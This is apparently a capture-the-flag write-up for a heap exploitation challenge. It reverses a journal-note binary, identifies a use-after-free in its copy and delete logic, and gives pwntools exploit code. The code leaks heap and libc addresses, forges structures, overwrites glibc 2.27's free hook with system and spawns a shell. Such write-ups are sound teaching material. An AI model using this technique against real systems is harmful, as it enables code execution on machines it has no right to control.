

Difficulty: `medium`

Day 1077: In this cell, the days blur together. Journaling is the only thing keeping me sane. They are not aware that between the lines, I am planning my great escape.

## Init

We are given simply a binary and the libraries needed to run this.
As for protections:
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./glibc'
    Stripped:   No
```

As we can see we've got a full protections on.

Based of the linker name we can assume the libc is of version `2.27`. This is quite old library version.

## Reversing

The program is essentially a simple heap note application with 4 options:
- Create
- View
- Copy
- Delete

The main structure being allocated is:
```c

struct journal {
    char * data;
    uint64_t journal_size;
    uint8_t allocated;
    int day;
};

```

`data` field is arbitrary sized heap chunk.

### Create

At first we need to input an index to the global variable holding all journals:
```c
  puts("Journal index:");
  idx = 0;
  __isoc99_scanf("%d",&idx);
  if ((idx < 0) || (9 < idx)) {
    error("Journal index out of range");
  }
```

This means we are quite limited with only few chunks.

We then select arbitrary size for `data` chunk:
```c
    puts("Journal size:");
    __isoc99_scanf(&DAT_001021c1,&struct->journal_size);
    pvVar2 = malloc(struct->journal_size);
    struct->data = pvVar2;
    struct->allocated = '\x01';
    if (struct->data == (void *)0x0) {
      error("Could not allocate space for journal");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
```

Here we can see that it sets `allocated` to essentially `true`. This symbolizes that the chunk is no longer in use.

Finally we are expected to input our data:
```c
    puts("Enter your data:");
    read(0,struct->data,struct->journal_size);
```

**This piece of code is not inside a loop and we can therefore supply length of for example 32, but only input 1 single byte.**

### View

After selecting index we first check for existence of the journal:

```c
    if (Chunks[i] == (journal_size *)0x0) {
      error("Journal index does not exist");
    }
```

Then the code checks for `allocated` flag and if it is allocated we shall read the `data` field as a string.
```c
    if (Chunks[i]->allocated == '\x01') {
      printf("Day #%s%u%s entry:\n%s\n",&DAT_00102008,(ulong)(uint)Chunks[i]->day,&DAT_0010201c,
             Chunks[i]->data);
    }
    else {
      error("Journal is not inuse");
    }
```

*This will actually crash if the supplied index has a `NULL`, it is not part of if-else and it is not returning after error call. Crowdstrike easter egg confirmed*

### Copy

We are needed to input 2 indexes:
1. Copy from index
2. Copy to index

After these are checked for validity and existence:
```c
    else if ((Chunks[copy_idx]->allocated == '\0') && (Chunks[paste_idx]->allocated == '\0')) {
      error("Journal index not in use");
    }
```

This checks for both chunks to be allocated..

Finally we check for sizes:
```c
    else if (Chunks[paste_idx]->journal_size < Chunks[copy_idx]->journal_size) {
      error("Copy index size cannot be larger than the paste index size");
    }
```

The chunk we are copying from must be smaller than the destination.
We then use `memcpy` to copy.

### Delete

During deletion we shall remove `allocated` flag and free the `data` field of selected journal.

```c
    Chunks[idx]->allocated = '\0';
    free(Chunks[idx]->data);
```

## Vulnerability Research

We can find the vulnerabilities manually.

### Use After Free

During the deletion of journals we are freeing the `data` pointer, but it is not being nulled in the structure itself.
We do remove the `allocated` flag, but that is not enough in our case.

During the copy operation there is a AND condition during the flag checking. This means we can copy from allocated chunk into unallocated.

If correctly controlled this can result into Use After Free situation and we could freely overwrite the heap objects.

## Exploit Development

First we need to control and understand the bug enough.
To achieve this condition we need to do a little bit of heap grooming, otherwise we wouldn't get an exploitable condition.

### Grooming

Let me illustrate the bug first.

First let's assume this starting position:
```goat {height="600" width="400" caption="Grooming; init"}
+---------------------+                  
|                     |                  
|                     |                  
|      Journal 0      +----------------+
|                     |                |
|                     |                |
+---------------------+                |
                                       |
+---------------------+                |
|                     |                |
|      Journal 0      |                |
|                     |<---------------+
|        data         |                  
|                     |                  
+---------------------+                  
                                         
+---------------------+                  
|                     |                  
|                     |                  
|      Journal 1      +----------------+ 
|                     |                | 
|                     |                | 
+---------------------+                | 
                                       | 
+---------------------+                | 
|                     |                | 
|      Journal 1      |                | 
|                     |<---------------+ 
|        data         |                  
|                     |                  
+---------------------+                  
```
The `Journal 0 data` must have the same size as the journal structure size. Otherwise this condition would not work. 

If we then remove the index 0 from the heap:
```goat {height="600" width="400" caption="Grooming; free"}
+---------------------+                 
|                     |                 
|                     |                 
|      Journal 0      +----------------+
|                     |                |
|                     |                |
+---------------------+                |
                                       |
+---------------------+                |
|                     |                |
|                     |                |
|     Freed chunk     |<---------------+
|                     |                 
|                     |                 
+---------------------+                 
                                        
+---------------------+                 
|                     |                 
|                     |                 
|      Journal 1      +----------------+
|                     |                |
|                     |                |
+---------------------+                |
                                       |
+---------------------+                |
|                     |                |
|      Journal 1      |                |
|                     |<---------------+
|        data         |                 
|                     |                 
+---------------------+                 
```

And now we add another entirely new chunk:
```goat {height="700" width="400" caption="Grooming; use after free achieved"}
+---------------------+                      
|                     |                      
|                     |                      
|      Journal 0      +----------------+     
|                     |                |     
|                     |                |     
+---------------------+                |     
                                       |     
+---------------------+                |     
|                     |                |     
|                     |                |     
|      Journal 2      |<---------------+     
|                     |                      
|                     +---------------------+
+---------------------+                     |
                                            |
+---------------------+                     |
|                     |                     |
|                     |                     |
|      Journal 1      +----------------+    |
|                     |                |    |
|                     |                |    |
+---------------------+                |    |
                                       |    |
+---------------------+                |    |
|                     |                |    |
|      Journal 1      |                |    |
|                     |<---------------+    |
|        data         |                     |
|                     |                     |
+---------------------+                     |
                                            |
                                            |
+---------------------+                     |
|                     |                     |
|      Journal 2      |                     |
|                     |<--------------------+
|        data         |                      
|                     |                      
+---------------------+                      
```

At this point if we do a copy operation from `Journal 1` to `Journal 0` we will succeed in overwriting `Journal 2` main structure!

### Heap leak

Leaking the heap address is pretty straightforward.

The `data` field contains another heap chunk and if we read from `Journal 2` we will read that exact pointer. 
Since the `read` operation doesn't have to be filled up we can freely input a single byte and thus most of the pointer will be intact.

We can follow this inside exploit:
```python
create(b"0", b"24", b"A" * 24)
create(b"1", b"1", b"\x60" * 1)

delete(b"0")

create(b"2", b"1500", b"X" * 1400) # uaf chunk victim with unsorted bin
create(b"3", b"16", b"\xe0" * 16) # anti consolidation chunk
```

*More on the unsorted bin below.*

Currently we have the UAF situation as mentioned above. You can notice that I selected byte 0x60 for heap leak but it doesn't really matter as I can just predict the first byte. 

Now to actually leak it we just need to do the copy operation:
```python
copy(b"1", b"0")

view(b"2")

p.recvuntil(b"entry:\n")
heap_leak = u64(p.recv(6).ljust(8,b"\x00"))

log.info("Heap leak " + hex(heap_leak))

original_big_chunk = ((heap_leak>>8) << 8) | 0xe0

log.info("Heap chunk original " + hex(original_big_chunk))
```

As you can see I will be replacing the one byte with known 0xe0 offset which was the original offset. This was found by debugging before the copy operation.

### Libc leak

Libc leak is very easy aswell since we are capable of allocating chunks of arbitrary size which means we can force a chunk to be inside unsorted bin.

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk, if it is free. */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk_nextsize;
};
```

When big enough chunk is allocated and freed it will have `fd` and `bd` pointers populated. These are double linked list node addresses and it so happens that they point into libc memory region.  

There are a lot of sources about `ptmalloc` internals and thus I won't go into greater details here.

Now to clarify the heap leak above:
```python
create(b"2", b"1500", b"X" * 1400) # uaf chunk victim with unsorted bin
create(b"3", b"16", b"\xe0" * 16) # anti consolidation chunk
```

The 2nd index will contain the big chunk and the 3rd must be here to separate top chunk from our chunks.
Why? Well if such big chunk is right next to top chunk, then it will get consolidated and we will lose the unsorted bin.

Back to our new leak. Currently we will need forge custom valid `journal` structure. This is done so we can read back the `fw` from soon to be freed chunk inside unsorted bin.

```c
chunk = p64(original_big_chunk) + p64(0x00000000000005f0) + p32(1) + p32(0x6969)

create(b"4", b"24", chunk) # forging custom chunk

copy(b"4", b"0")

# Now we delete chunk 2, it's journal points to soon to be unsorted bin chunk
delete(b"2")

copy(b"4", b"0")
```

We can and need to forge the allocation flag.

```python
view(b"2")

p.recvuntil(b"entry:\n")
libc_leak = u64(p.recv(6).ljust(8,b"\x00"))

log.info("Libc leak " + hex(libc_leak))
```

And just like that we've got the libc leak.

### RCE

As for RCE I mentioned earlier this uses old libc. The older versions contains so called heap hooks for all heap operations:
- Free hook
- Malloc hook
- Realloc hook
etc..

These are crazy good during exploit development as you can turn any arb write into RCE. And thus they got removed.

Now the question is which of these hooks is the most useful one?
First of all we can only call `malloc` and `free`. This means we've got only 2 real options.

As for malloc it is defined as:
```c
void * malloc(size_t size);
```

So we can in theory pass size, but that is pretty much useless. We would have to do one gadget in order to easily exploit it.

But Free:
```c
void free(void * ptr);
```

This passes the entire chunk to be freed. Well what other function only needs a single pointer to execute any code?
```c
int system(char * cmd);
```

Which is perfect for this hook.
Thus we need to find `system` and `free_hook`.

I resorted to using Ghidra to find these.
First we can check for free hook if it's actually present (That would be nice troll):
```c
  if (__free_hook != (_func_void_void_ptr_void_ptr *)0x0) {
    (*__free_hook)(__ptr,unaff_retaddr);
    goto LAB_7f25ef697b90;
  }
```

Fortunately it is:)! And system can be easily found by searching.

Back to our exploit. To achieve arbitrary write we just need to replace the pointer using our copy primitive.
This can later be used to copy into arbitrary location.

```python
chunk = p64(free_hook) + p64(0x00000000000008) + p32(1) + p32(0x6969)

create(b"5", b"24", chunk) # forging free hook overwrite
copy(b"5", b"0")
```

Now it points into free hook address and we just have to actually write the pointer:
```python
create(b"6", b"8", p64(system_address))

log.info("Overwriting free hook with system")
copy(b"6", b"2")
```

And now the free has been hooked with system. We just need to allocate custom `/bin/sh` chunk and free it.

### Shell popping

Popped it:



## Attachment

- [Exploit script](dstr.py)
- [Challenge files](pwn_prison_break.zip)

